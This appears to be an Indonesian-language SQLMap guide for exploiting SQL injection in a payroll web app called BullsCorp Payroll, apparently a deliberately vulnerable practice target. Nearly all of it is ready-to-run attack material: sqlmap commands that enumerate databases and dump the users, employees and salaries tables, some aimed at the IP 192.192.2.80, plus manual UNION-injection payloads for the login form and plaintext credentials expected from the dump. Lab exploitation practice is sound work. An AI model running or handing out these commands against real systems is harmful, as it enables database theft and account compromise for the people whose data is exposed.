 # SQLMap Guide untuk BullsCorp Payroll

## Masalah yang Anda Alami

Berdasarkan hasil testing, **tabel users DAPAT diinjeksi** dan SQLMap seharusnya bisa mendeteksinya. Jika SQLMap tidak menampilkan tabel users, kemungkinan ada masalah dengan:

1. **Parameter yang salah** - Pastikan menggunakan parameter `username` bukan yang lain
2. **Endpoint yang salah** - Gunakan `/public/login.php` bukan endpoint lain
3. **Method yang salah** - Harus menggunakan POST method
4. **Database detection** - SQLMap mungkin tidak mendeteksi database dengan benar

## Vulnerable Endpoints yang Terkonfirmasi

### 1. Login Form (PALING MUDAH)
```bash
# Basic detection
sqlmap -u "http://192.192.2.80:3000/public/login.php" --data "username=admin&password=test" -p username --batch

# List databases
sqlmap -u "http://192.192.2.80:3000/public/login.php" --data "username=admin&password=test" -p username --dbs --batch

# List tables in bullscorp_payroll
sqlmap -u "http://192.192.2.80:3000/public/login.php" --data "username=admin&password=test" -p username -D bullscorp_payroll --tables --batch

# Dump users table
sqlmap -u "http://192.192.2.80:3000/public/login.php" --data "username=admin&password=test" -p username -D bullscorp_payroll -T users --dump --batch
```

### 2. API User Data (GET Parameter)
```bash
# Perlu session cookie valid terlebih dahulu
sqlmap -u "http://localhost/api/user_data.php?user_id=1" --cookie "PHPSESSID=your_session_id" -p user_id --batch
```

### 3. Search API (GET Parameter)
```bash
# Perlu session cookie valid
sqlmap -u "http://localhost/api/search.php?q=test" --cookie "PHPSESSID=your_session_id" -p q --batch
```

## Menggunakan Request File

Buat file `request.txt`:
```
POST /public/login.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 35

username=admin&password=test123
```

Kemudian jalankan:
```bash
sqlmap -r request.txt -p username --batch --dbs
sqlmap -r request.txt -p username -D bullscorp_payroll --tables --batch
sqlmap -r request.txt -p username -D bullscorp_payroll -T users --dump --batch
```

## Troubleshooting SQLMap

### Jika SQLMap Tidak Mendeteksi Vulnerability:

1. **Gunakan level dan risk yang lebih tinggi:**
```bash
sqlmap -u "http://localhost/public/login.php" --data "username=admin&password=test" -p username --level=5 --risk=3 --batch
```

2. **Force detection dengan technique tertentu:**
```bash
# Union-based
sqlmap -u "http://localhost/public/login.php" --data "username=admin&password=test" -p username --technique=U --batch

# Boolean-based blind
sqlmap -u "http://localhost/public/login.php" --data "username=admin&password=test" -p username --technique=B --batch

# Time-based blind
sqlmap -u "http://localhost/public/login.php" --data "username=admin&password=test" -p username --technique=T --batch
```

3. **Gunakan custom payload:**
```bash
sqlmap -u "http://localhost/public/login.php" --data "username=admin&password=test" -p username --suffix=" -- " --batch
```

### Jika Tabel Users Tidak Muncul:

1. **Cek semua database:**
```bash
sqlmap -u "http://localhost/public/login.php" --data "username=admin&password=test" -p username --dbs --batch
```

2. **Cek dengan database yang benar:**
```bash
# Pastikan menggunakan database bullscorp_payroll
sqlmap -u "http://localhost/public/login.php" --data "username=admin&password=test" -p username -D bullscorp_payroll --tables --batch
```

3. **Dump semua tabel:**
```bash
sqlmap -u "http://localhost/public/login.php" --data "username=admin&password=test" -p username -D bullscorp_payroll --dump-all --batch
```

## Manual Testing (Jika SQLMap Gagal)

Anda bisa test manual dengan payload ini di form login:

### Username Field Payloads:
```sql
-- Basic Union Injection
admin' UNION SELECT 1,2,3,4,5,6,7,8 -- 

-- Extract Users Data
admin' UNION SELECT id,username,password,email,role,employee_id,created_at,last_login FROM users -- 

-- Get Database Info
admin' UNION SELECT 1,database(),version(),user(),5,6,7,8 -- 

-- List All Tables
admin' UNION SELECT 1,table_name,3,4,5,6,7,8 FROM information_schema.tables WHERE table_schema='bullscorp_payroll' -- 
```

## Hasil yang Diharapkan

Jika berhasil, Anda akan mendapatkan:

### Database List:
- information_schema
- bullscorp_payroll
- mysql
- performance_schema
- sys

### Tables dalam bullscorp_payroll:
- attendance
- employees  
- salaries
- submissions
- system_logs
- **users** ← Ini yang Anda cari!

### Data dari tabel users:
- 57 users total
- Admin: admin/admin5231
- HR: hr/hr2145  
- Employees: [nama]/halahgampang
- Password hashes (bcrypt)
- Email addresses
- Roles (admin/hr/employee)

## Command Lengkap untuk Copy-Paste

```bash
# Step 1: Deteksi vulnerability
sqlmap -u "http://localhost/public/login.php" --data "username=admin&password=test" -p username --batch

# Step 2: List databases  
sqlmap -u "http://localhost/public/login.php" --data "username=admin&password=test" -p username --dbs --batch

# Step 3: List tables
sqlmap -u "http://localhost/public/login.php" --data "username=admin&password=test" -p username -D bullscorp_payroll --tables --batch

# Step 4: Dump users table
sqlmap -u "http://localhost/public/login.php" --data "username=admin&password=test" -p username -D bullscorp_payroll -T users --dump --batch

# Step 5: Dump all sensitive tables
sqlmap -u "http://localhost/public/login.php" --data "username=admin&password=test" -p username -D bullscorp_payroll -T users,employees,salaries --dump --batch
```

## Catatan Penting

1. **Pastikan web server berjalan** di localhost
2. **Database harus sudah diinisialisasi** dengan menjalankan `php config/init_mysql.php`
3. **Gunakan --batch** untuk auto-answer semua prompt
4. **Vulnerability sudah terkonfirmasi** - jika SQLMap gagal, coba manual testing
5. **Tabel users pasti ada** dengan 57 records

Jika masih bermasalah, coba jalankan `php test_sql_injection.php` untuk memverifikasi bahwa vulnerability masih ada dan database terkoneksi dengan benar.

# 1. Dump kolom penting (username, password, email, role)
sqlmap -u "http://192.192.2.80:3000/public/login.php" --data "username=admin&password=test" -p username -D bullscorp_payroll -T users -C "id,username,password,email,role" --dump --batch

# 2. Atau dump semua kolom dengan technique UNION
sqlmap -u "http://192.192.2.80:3000/public/login.php" --data "username=admin&password=test" -p username -D bullscorp_payroll -T users --dump --technique=U --batch --threads=1

# 3. Atau dengan level tinggi untuk force detection
sqlmap -u "http://192.192.2.80:3000/public/login.php" --data "username=admin&password=test" -p username -D bullscorp_payroll -T users --dump --level=5 --risk=3 --batch
